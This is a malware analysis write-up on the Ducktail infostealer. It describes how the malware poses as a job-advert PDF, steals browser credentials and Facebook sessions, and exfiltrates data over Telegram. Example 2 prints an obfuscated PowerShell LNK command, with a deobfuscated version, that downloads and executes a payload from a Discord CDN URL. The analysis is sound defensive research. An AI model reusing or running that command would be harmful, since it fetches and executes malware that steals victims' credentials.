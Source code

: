 ```yaml
---
tags: Infostealers
---
```

## Ducktail Infostealer

Ducktail infostealer targets individuals and employees that may have access to a Facebook Business account.
The malware is designed to steal browser cookies and take advantage of authenticated Facebook sessions to steal information from the victim's Facebook account and ultimately hijack any Facebook Business account that the victim has sufficient access to.
In some cases, the malware is delivered to victims over Linkedin, with the user of fake recruiter accounts.
The binary is designed to use Telegram API to exfiltrate data.

## Example 1 - Binary Masquerading as Job Advertisement
This sample is taken from [Virustotal](https://www.virustotal.com/gui/file/681a9d8a02e7abacc8d5218de80f16e16c02c2b40807246aa7a45e627e35038b)

It's worth mentioning that this sample, and many others, have very minimal hits on VT, usually 0 or 1.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/d275931e-404f-46bb-b65f-3180e1b9d5f9)

Upon execution, to the user, it appears that a PDF file is opened harmlessly.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c036b5c0-3dc0-409a-9374-c5f6b43ec1de)

In the background, a few things are happening.
A browser is silently executed and used to navigate to varius websites to retrieve the victims IP address.

_Evident with the following strings:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/081e99c9-deca-4f75-b6cf-509b313ca1bc)


A dll is dropped to the '%AppData%\Temp\.net' directory:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/e0003384-3133-457a-bd99-c687c745ec8a)

The actually legitimate PDF file is dropped to the Temp directory:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/73676dae-5cc4-49af-8d9a-8f46f963e529)

A screenshot of the screen at the time of execution is taken and stored in the Temp directory:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/e885a983-b204-4a0b-b412-8721d0fa9e52)

More interestingly, the following files are collected to be exfiltrated.

_System Information:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/49376a22-3737-4254-b8a6-eb1a3aa57fd5)

_Credentials from Browsers:_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b3d63fbe-8d70-4324-9852-ca4482c108ed)

This information is again stored in the Temp directory.

Telegram is used as a means of C2 and data exfiltration, this is also evident in the strings, with Telegram URLs and API calls.


![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/39be0c4d-3c68-4ce7-b48d-74c71423d613)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/09f46a31-5290-4181-ae12-bc73331f76af)
![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/4dc027fc-d125-4f6e-a1c9-51c63eca739c)

From Telegram bot [atricle](https://telegrambots.github.io/book/Migration-Guide-to-Version-14.x.html)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/2ca2c814-fcb2-4f13-a624-2c1404a80226)

_Basic Execution Flow_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/1a0d9f71-ea12-4d3e-89ae-6bf784ddee6f)


There are also some interesting references to Facebook URLs within the strings:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6728cd25-712c-4b56-a6ff-87993575512c)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c5822417-b4c6-4969-b677-433c1c6e5e77)

As well as a list of hardcoded Outlook email addresses

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/edabee64-7f99-46e1-8107-119bde5b61ee)

It's assessed that these email addresses are added to the compromised Facebook Business group.

## Example 2 - LNK File, Calling out to Discord

A much more simpler example, is an lnk file which target path is to download a remote payload from Discord CDN.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c5a4f76a-94f8-4ee6-ad76-58483bd027f0)

```
C:\WINDOWS\system32\cmd.exe /c powershe""l""l/""W 0""1 $op='i'+''+'E'+'x';sal donke $op;$hx508wpj=donke(donke($($('(nsd88w-objsd88ct
Systsd88m.Nsd88t.Wsd88bClisd88nt).Doq82mtring(''hu8pvcdn.discordapp[.]com/attachmi47nts/1015258281561821208/1036207817209692210/conmi47thangi47o[.]jpg''.Replace(''u8pv'',''ttps://'').Replace(''i47'', ''e''))').Replace('sd88', 'e').Replace('q82m', 'wnloadS'))));exit9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
```

Slightly deobfuscated:
```
/c powershe ll/W 01 ='i'+''+'E'+'x';sal donke ;=donke(donke((new-object System.Net.WebClient).DownloadString('hu8pvcdn.discordapp[.]com/attachmi47nts/1015258281561821208/1036207817209692210/conmi47thangi47o[.]jpg'.Replace('u8pv','ttps://').Replace('i47',
'e'))));exit9%ProgramFiles(x86)%\Microsoft\Edge\Application\msedge.exe
```
We can see that PowerShell is being used to download and execute the remote payload: "hu8pvcdn.discordapp[.]com/attachmi47nts/1015258281561821208/1036207817209692210/conmi47thangi47o[.]jpg"


